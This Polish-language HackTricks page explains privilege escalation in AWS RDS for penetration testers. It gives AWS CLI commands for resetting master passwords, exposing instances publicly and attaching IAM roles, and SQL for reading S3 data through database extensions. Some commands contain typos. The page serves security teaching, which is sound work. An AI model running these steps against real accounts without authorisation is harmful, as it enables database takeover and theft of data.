 # AWS - RDS Privesc

{% hint style="success" %}
Ucz się i ćwicz AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Ucz się i ćwicz GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wspieraj HackTricks</summary>

* Sprawdź [**plany subskrypcji**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

## RDS - Relational Database Service

Więcej informacji o RDS znajdziesz tutaj:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Z tą uprawnieniem atakujący może **zmodyfikować hasło użytkownika głównego** i zalogować się do bazy danych:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Musisz mieć możliwość **połączenia się z bazą danych** (zazwyczaj są one dostępne tylko z wewnętrznych sieci).
{% endhint %}

**Potencjalny wpływ:** Znalezienie wrażliwych informacji w bazach danych.

### rds-db:connect

Według [**dokumentacji**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) użytkownik z tym uprawnieniem może połączyć się z instancją DB.

### Nadużycie uprawnień RDS Role IAM

#### Postgresql (Aurora)

{% hint style="success" %}
Jeśli uruchomisz **`SELECT datname FROM pg_database;`** i znajdziesz bazę danych o nazwie **`rdsadmin`**, wiesz, że jesteś wewnątrz **AWS postgresql database**.
{% endhint %}

Najpierw możesz sprawdzić, czy ta baza danych była używana do uzyskania dostępu do jakiejkolwiek innej usługi AWS. Możesz to sprawdzić, patrząc na zainstalowane rozszerzenia:
```sql
SELECT * FROM pg_extension;
```
Jeśli znajdziesz coś takiego jak **`aws_s3`**, możesz założyć, że ta baza danych ma **jakiś rodzaj dostępu do S3** (istnieją inne rozszerzenia, takie jak **`aws_ml`** i **`aws_lambda`**).

Również, jeśli masz uprawnienia do uruchomienia **`aws rds describe-db-clusters`**, możesz zobaczyć tam, czy **klaster ma przypisaną jakąkolwiek rolę IAM** w polu **`AssociatedRoles`**. Jeśli tak, możesz założyć, że baza danych została **przygotowana do dostępu do innych usług AWS**. Na podstawie **nazwy roli** (lub jeśli możesz uzyskać **uprawnienia** roli) możesz **zgadnąć**, jaki dodatkowy dostęp ma baza danych.

Teraz, aby **odczytać plik wewnątrz bucketu**, musisz znać pełną ścieżkę. Możesz to odczytać za pomocą:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Jeśli masz **surowe poświadczenia AWS**, możesz ich również użyć do uzyskania dostępu do danych S3 za pomocą:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **nie wymaga zmiany żadnej zmiennej grupy parametrów**, aby uzyskać dostęp do S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Wewnątrz mysql, jeśli uruchomisz zapytanie **`SELECT User, Host FROM mysql.user;`** i jest tam użytkownik o nazwie **`rdsadmin`**, możesz założyć, że jesteś wewnątrz **AWS RDS mysql db**.
{% endhint %}

Wewnątrz mysql uruchom **`show variables;`** i jeśli zmienne takie jak **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** mają wartości, możesz założyć, że baza danych jest przygotowana do dostępu do danych S3.

Również, jeśli masz uprawnienia do uruchomienia **`aws rds describe-db-clusters`**, możesz sprawdzić, czy klaster ma jakąkolwiek **przypisaną rolę**, co zazwyczaj oznacza dostęp do usług AWS.

Aby **odczytać plik wewnątrz bucket**, musisz znać pełną ścieżkę. Możesz to odczytać za pomocą:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Atakujący z uprawnieniami `rds:AddRoleToDBCluster` i `iam:PassRole` może **dodać określoną rolę do istniejącej instancji RDS**. Może to pozwolić atakującemu na **dostęp do wrażliwych danych** lub modyfikację danych w instancji.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potential Impact**: Dostęp do wrażliwych danych lub nieautoryzowane modyfikacje danych w instancji RDS.\
Należy zauważyć, że niektóre bazy danych wymagają dodatkowych konfiguracji, takich jak Mysql, który wymaga określenia ARN roli w grupach parametrów.

### `rds:CreateDBInstance`

Tylko z tym uprawnieniem atakujący mógłby utworzyć **nową instancję w istniejącym klastrze**, który ma przypisaną **rolę IAM**. Nie będzie w stanie zmienić hasła użytkownika głównego, ale może być w stanie wystawić nową instancję bazy danych do internetu:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Atakujący z uprawnieniami `rds:CreateDBInstance` i `iam:PassRole` może **utworzyć nową instancję RDS z przypisaną określoną rolą**. Atakujący może następnie potencjalnie **uzyskać dostęp do wrażliwych danych** lub zmodyfikować dane w instancji.

{% hint style="warning" %}
Niektóre wymagania dotyczące roli/profilu instancji do przypisania (z [**tutaj**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Profil musi istnieć na Twoim koncie.
* Profil musi mieć rolę IAM, którą Amazon EC2 ma uprawnienia do przejęcia.
* Nazwa profilu instancji i powiązana nazwa roli IAM muszą zaczynać się od prefiksu `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potencjalny wpływ**: Dostęp do wrażliwych danych lub nieautoryzowane modyfikacje danych w instancji RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Atakujący z uprawnieniami `rds:AddRoleToDBInstance` i `iam:PassRole` może **dodać określoną rolę do istniejącej instancji RDS**. Może to pozwolić atakującemu na **dostęp do wrażliwych danych** lub modyfikację danych w instancji.

{% hint style="warning" %}
Instancja DB musi być poza klastrem
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potencjalny wpływ**: Dostęp do wrażliwych danych lub nieautoryzowane modyfikacje danych w instancji RDS.

{% hint style="success" %}
Ucz się i ćwicz AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Ucz się i ćwicz GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wspieraj HackTricks</summary>

* Sprawdź [**plany subskrypcji**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
